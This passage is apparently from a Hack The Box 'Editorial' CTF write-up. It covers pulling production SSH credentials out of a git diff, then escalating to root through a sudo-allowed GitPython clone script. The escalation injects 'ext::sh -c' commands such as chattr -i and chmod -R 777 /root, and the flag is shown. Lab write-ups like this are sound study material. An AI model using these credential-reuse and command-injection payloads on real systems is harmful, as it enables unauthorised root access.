    ['commit 8ad0f3187e2bda88bba85074635ea942974587e8\n',
     'Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>\n',
     'Date:   Sun Apr 30 21:04:21 2023 -0500\n',
     '\n',
     '    fix: bugfix in api port endpoint\n',
     '\n',
     'commit dfef9f20e57d730b7d71967582035925d57ad883\n',
     'Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>\n',
     'Date:   Sun Apr 30 21:01:11 2023 -0500\n',
     '\n',
     '    change: remove debug and update api port\n',
     '\n',
     'commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae\n',
     'Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>\n',
     'Date:   Sun Apr 30 20:55:08 2023 -0500\n',
     '\n',
     '    change(api): downgrading prod to dev\n',
     '    \n',
     '    * To use development environment.\n',
     '\n',
     'commit 1e84a036b2f33c59e2390730699a488c65643d28\n',
     'Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>\n',
     'Date:   Sun Apr 30 20:51:10 2023 -0500\n',
     '\n',
     '    feat: create api to editorial info\n',
     '    \n',
     '    * It (will) contains internal info about the editorial, this enable\n',
     '       faster access to information.\n',
     '\n',
     'commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8\n',
     'Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>\n',
     'Date:   Sun Apr 30 20:48:43 2023 -0500\n',
     '\n',
     '    feat: create editorial app\n',
     '    \n',
     '    * This contains the base of this project.\n',
     '    * Also we add a feature to enable to external authors send us their\n',
     '       books and validate a future post in our editorial.\n']


And checking through each of the change logs, we can see one where the default user credentials are updated from "prod" to "dev". 


```python
pprint(run_command('cd ~/apps && git diff HEAD~3'))
```
```javascript
    ['diff --git a/app_api/app.py b/app_api/app.py\n',
<snip>
     '-        \'template_mail_message\': "Welcome to the team! We are thrilled to '
     "have you on board and can't wait to see the incredible content you'll bring "
     'to the table.\\n\\nYour login credentials for our internal forum and authors '
     'site are:\\nUsername: prod\\nPassword: 080217_Producti0n_2023!@\\nPlease be '
     'sure to change your password as soon as possible for security '
     "purposes.\\n\\nDon't hesitate to reach out if you have any questions or "
     'ideas - we\'re always here to support you.\\n\\nBest regards, " + '
     'api_editorial_name + " Team."\n',
     '+        \'template_mail_message\': "Welcome to the team! We are thrilled to '
     "have you on board and can't wait to see the incredible content you'll bring "
     'to the table.\\n\\nYour login credentials for our internal forum and authors '
     'site are:\\nUsername: dev\\nPassword: dev080217_devAPI!@\\nPlease be sure to '
     "change your password as soon as possible for security purposes.\\n\\nDon't "
     "hesitate to reach out if you have any questions or ideas - we're always here "
     'to support you.\\n\\nBest regards, " + api_editorial_name + " Team."\n',
<snip>
```


### Prod Elevation

This is a rinse and repeat of the previous privesc, but with the production credentials now.


```python
prod_account = {'username': 'prod', 'password': '080217_Producti0n_2023!@'}
ssh_prod = paramiko.SSHClient()
ssh_prod.set_missing_host_key_policy(paramiko.AutoAddPolicy())
ssh_prod.connect(target, username=prod_account['username'], password=prod_account['password'])

def run_prod_command(command):
    stdin, stdout, stderr = ssh_prod.exec_command(command)
    return stdout.readlines()
```


```python
pprint(run_prod_command('ls -alhn'))
pprint(run_prod_command('whoami'))
```

    ['total 32K\n',
     'drwxr-x--- 5 1000 1000 4.0K Jun 16 04:39 .\n',
     'drwxr-xr-x 4    0    0 4.0K Jun  5 14:36 ..\n',
     'lrwxrwxrwx 1    0    0    9 Feb  6  2023 .bash_history -> /dev/null\n',
     '-rw-r--r-- 1 1000 1000  220 Jan  6  2022 .bash_logout\n',
     '-rw-r--r-- 1 1000 1000 3.7K Jan  6  2022 .bashrc\n',
     'drwx------ 3 1000 1000 4.0K Jun  5 14:36 .cache\n',
     'drwxrwxr-x 4 1000 1000 4.0K Jun  5 14:36 .local\n',
     '-rw-r--r-- 1 1000 1000  807 Jan  6  2022 .profile\n',
     'drwx------ 2 1000 1000 4.0K Jun  5 14:36 .ssh\n',
     '-rw-r--r-- 1    0    0    0 Jun 16 04:39 test\n']
    ['prod\n']


### ls sudo

There's no flag in this user's directory. However we do have a `sudo` script we can abuse.

```sh
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

The contents of the script show a pretty simple looking git clone.


```python
pprint(run_prod_command('cat /opt/internal_apps/clone_changes/clone_prod_change.py'))
```

    ['#!/usr/bin/python3\n',
     '\n',
     'import os\n',
     'import sys\n',
     'from git import Repo\n',
     '\n',
     "os.chdir('/opt/internal_apps/clone_changes')\n",
     '\n',
     'url_to_clone = sys.argv[1]\n',
     '\n',
     "r = Repo.init('', bare=True)\n",
     'r.clone_from(url_to_clone, \'new_changes\', multi_options=["-c '
     'protocol.ext.allow=always"])\n']


Here was my next blocking point. I've learned to never take these scripts for granted, as there's always some minutiea in here that matters to the exercises, especially in an 'easy' level challenge. 

I spent some time abusing argv1 to try passing in different command line parameters as the errors that would be generated here showed `cmdline: git clone <args> -c protocol.ext.allow=always <my argv1> new_change`

However, of course, there was more to the challenge than that. I started to search for every flag in that command and ran into some interesting notes about various vulnerabilities about how the python git libraries had a chance to call the `git` binary directly without proper user input validation. 

Checking on the versions of the git packages for vulnerabilities...


```python
pprint(run_prod_command('pip list | grep -i git'))
print(source)
```

    ['gitdb                 4.0.10\n', 'GitPython             3.1.29\n']
    ['10.10.14.194']


I found a POC and a 9+ CSV

https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

After spending some time trying to spin up reverse shells or cat out the file from this vector, I decided to go a more destructive route. 

Trying to chmod the directory threw errors about /root/root.txt being immutable.

So here's what ended up working:

1. `chattr -i /root/root.txt` 
```sh
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chattr% -i% /root/root.txt'
Traceback (most recent call last):
#snip
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chattr% -i% /root/root.txt new_changes
  stderr: 'Cloning into 'new_changes'...'
#snip
```

2. `chmod -R 777 /root`
```sh
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% -R% 777% /root'
Traceback (most recent call last):
#snip
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% -R% 777% /root new_changes
  stderr: 'Cloning into 'new_changes'...'
#snip
```

3. Draw the rest of the owl.
```sh
prod@editorial:/opt/internal_apps/clone_changes$ ls /root/
root.txt
prod@editorial:/opt/internal_apps/clone_changes$ cat /root/root.txt
36f70cec6d49bd393f7786af05c06a4e
```

# Post Notes

I had a really hard time when I road blocked myself on looking for the service that the nginx proxy was passing traffic to. After realizing that the SSRF was a good way to enumerate all the internal ports, it became obvious how to see the rest of the web service.

Following that, the next bigger hurdle for me was to enumerate the python libraries that were being used by the sudo script, but remembering to `pip list` threw me right at the hint that I needed to use `ext::sh -c` to do one-off non-interactive commands from root. There's probably a more interesting way to solve this, but chmoding /root was the most direct path for me.
